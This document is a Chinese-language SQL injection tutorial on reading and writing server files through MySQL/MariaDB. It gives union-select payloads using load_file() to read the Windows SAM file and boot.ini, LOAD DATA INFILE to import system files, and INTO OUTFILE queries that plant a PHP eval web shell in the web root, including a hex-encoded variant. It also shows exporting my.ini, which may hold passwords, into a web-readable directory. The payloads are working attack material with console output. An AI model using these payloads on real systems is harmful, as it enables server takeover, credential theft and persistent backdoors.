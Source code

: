 # SQL注入文件读写基础知识  
## 1. 读文件  

load_file(file_name):读取文件并返回该文件的内容作为一个字符串。  
使用条件：  
- A、必须有权限读取并且文件必须完全可读 
  - `and (select count(*) from mysql.user)>0/*` 如果结果返回正常,说明具有读写权限。  
  - `and (select count(*) from mysql.user)>0/*` 返回错误，应该是管理员给数据库帐户降权    
- B、欲读取文件必须在服务器上   
- C、必须指定文件完整的路径   
- D、欲读取文件必须小于 max_allowed_packet   

如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。   
比较难满足的就是权限，在windows下，如果NTFS设置得当，是不能读取相关的文件的，当遇到只有administrators才能访问的文件，users就别想load_file出来。   
　

在实际的注入中，我们有两个难点需要解决：   
1. 绝对物理路径 
2. 构造有效的畸形语句 （报错爆出绝对路径）


在很多PHP程序中，当提交一个错误的Query，如果display_errors = on，程序就会暴露WEB目录的绝对路径，只要知道路径，那么对于一个可以注入的PHP程序来说，整个服务器的安全将受到严重的威胁。  
常用路径：
http://www.cnblogs.com/lcamry/p/5729087.html  

示例：  

`Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)))`

char中内容为：c:\windows\repair\sam  
利用hex()将文件内容导出来，尤其是smb文件时可以使用。  

`-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))`  

Explain：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的ASCII代码

`-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69) `  

Explain：“c:/boot.ini”的16进制是“0x633a2f626f6f742e696e69”

`-1 union select 1,1,1,load_file(c:\\boot.ini) `  

Explain:路径里的/用 \\\代替

练习示例：   
```
MariaDB [test]> select load_file("d:\\test.php");
+--------------------------------+
| load_file("d:\\test.php")      |
+--------------------------------+
| 10.1.9-MariaDB
this is  a test |
+--------------------------------+
1 row in set (0.03 sec)

MariaDB [test]> select hex(load_file("d:\\test.php"));
+--------------------------------------------------------------+
| hex(load_file("d:\\test.php"))                               |
+--------------------------------------------------------------+
| 31302E312E392D4D6172696144420A746869732069732020612074657374 |
+--------------------------------------------------------------+
1 row in set (0.00 sec)
MariaDB [test]> select load_file(0x643A5C5C746573742E706870);
+---------------------------------------+
| load_file(0x643A5C5C746573742E706870) |
+---------------------------------------+
| 10.1.9-MariaDB
this is  a test        |
+---------------------------------------+
1 row in set (0.00 sec)
```
d:\\\test.php 的16进制为 0x643A5C5C746573742E706870。

## 2. 文件导入到数据库  

**LOAD DATA INFILE**    语句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。  
在注入过程中，我们往往需要一些特殊的文件，比如配置文件，密码文件等。当你具有数据库的权限时，可以将系统文件利用load data infile导入到数据库中。   

基本语法：    
```
load data  [low_priority] [local] infile 'file_name txt' [replace | ignore]
into table tbl_name
[fields
[terminated by't']
[OPTIONALLY] enclosed by '']
[escaped by'\' ]]
[lines terminated by'n']
[ignore number lines]
[(col_name,   )]
```

示例：  
```
load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t' lines terminated by '\n'
```

将/tmp/t0.txt导入到t0表中，character set gbk是字符集设置为gbk，fields terminated by是每一项数据之间的分隔符，lines terminated by 是行的结尾符。

当错误代码是2的时候的时候，文件不存在，错误代码为13的时候是没有权限，可以考虑/tmp等文件夹。

练习示例：   

```
MariaDB [test]> CREATE TABLE t2(name varchar(100));
Query OK, 0 rows affected (0.19 sec)

MariaDB [test]> load data infile 'd:\\test.php' into table t2;
Query OK, 1 row affected (0.03 sec)
Records: 1  Deleted: 0  Skipped: 0  Warnings: 0

MariaDB [test]> select * from t2;
+----------------+
| name           |
+----------------+
| 10.1.9-MariaDB |
+----------------+
1 row in set (0.00 sec)
```
表必须先存在，首先创建一张表，表为一列，类型为char，执行`load data infile 'd:\\test.php' into table t2;`     后可以将文件内容写入到该表中，内容添加到表后面。


## 3. 写文件

`SELECT.....INTO OUTFILE 'file_name'`

可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此您必须拥有FILE权限，才能使用此语法。file_name不能是一个已经存在的文件。  

我们一般有两种利用形式：  
第一种直接将select内容导入到文件中，文件路径必须为已存在的路径，文件名不能存在：  

```
select version() into outfile "c:\\phpnow\\htdocs\\test.php"
```   
此处将version()替换成一句话，<?php @eval($_post[“mima”])?>也即 

```
select  <?php @eval($_post[“mima”])?>  into outfile "c:\\phpnow\\htdocs\\test.php"
```

直接连接一句话就可以了，其实在select内容中不仅仅是可以上传一句话的，也可以上传很多的内容。

第二种修改文件结尾：   

```
select version() Into outfile “c:\\phpnow\\htdocs\\test.php” LINES TERMINATED BY 0x16进制文件
```

解释：通常是用‘\r\n’结尾，此处我们修改为自己想要的任何文件。同时可以用FIELDS TERMINATED BY  16进制可以为一句话或者其他任何的代码，可自行构造。在sqlmap中os-shell采取的就是这样的方式，具体可参考os-shell分析文章：http://www.cnblogs.com/lcamry/p/5505110.html  

练习示例：    
```
MariaDB [test]> select version() into outfile "d:\\test2.php" LINES TERMINATED BY 0x3C3F70687020406576616C28245F706F73745BA1B06D696D61A1B15D293F3E;
Query OK, 1 row affected, 1 warning (0.01 sec)

test2.php内容为：
10.1.9-MariaDB<?php @eval($_post[“mima”])?>
```

TIPS：   
（1）可能在文件路径当中要注意转义，这个要看具体的环境  
（2）上述我们提到了load_file(),但是当前台无法导出数据的时候，我们可以利用下面的语句：    
```
select load_file(‘c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini’)into outfile ‘c:\\wamp\\www\\test.php’
```

可以利用该语句将服务器当中的内容导入到web服务器下的目录，这样就可以得到数据了。上述my.ini当中存在password项（不过默认被注释），当然会有很多的内容可以被导出来，这个要平时积累。
